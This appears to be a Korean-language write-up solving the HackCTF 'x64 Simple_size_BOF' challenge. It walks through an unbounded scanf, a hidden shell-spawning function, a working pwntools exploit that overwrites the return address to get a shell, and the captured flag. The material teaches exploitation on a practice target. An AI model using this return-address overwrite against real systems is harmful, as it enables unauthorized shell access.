 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-110h]
  int v5; // [rsp+11Ch] [rbp-4h]

  _isoc99_scanf("%s", &s, envp);
  v5 = strlen(&s);
  printf("Hello %s\n", &s);
  return 0;
}
```
<strong>코드를 보면 scanf 함수를 이용해서 s를 입력 받고 있습니다. 하지만 길이에 대한 검증이 없어 BOF 취약점이 발생합니다.</strong><br>

```c
int callMeMaybe()
{
  char *path; // [rsp+0h] [rbp-20h]
  const char *v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  path = "/bin/bash";
  v2 = "-p";
  v3 = 0LL;
  return execve("/bin/bash", &path, 0LL);
}
```
<strong>그리고 다른 함수가 뭐가 있나 보니 callMeMaybe라는 함수가 존재했습니다. 해당 함수를 실행시키면 execve 함수를 이용해서 쉘을 실행 시키는 것을 볼 수 있습니다. 그러니 BOF 취약점을 이용해서 RET를 ccallMeMaybe 함수의 주소로 덮으면 될 거 같습니다.</strong><br>

```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3004)

shell_addr = 0x400606

payload = "a" * 280
payload += p64(shell_addr)

p.sendline(payload)
p.interactive()
```

```
pocas@pocas-VirtualBox:~/pwn/HackCTF$ python 64bof_basic.py 
[+] Opening connection to ctf.j0n9hyun.xyz on port 3004: Done
[*] Switching to interactive mode
$ cat flag
HackCTF{64b17_b0f_15_51mpl3_700}
$  
```

>FLAG : HackCTF{64b17_b0f_15_51mpl3_700}

---
HackCTF Challenge : x64 Simple_size_BOF
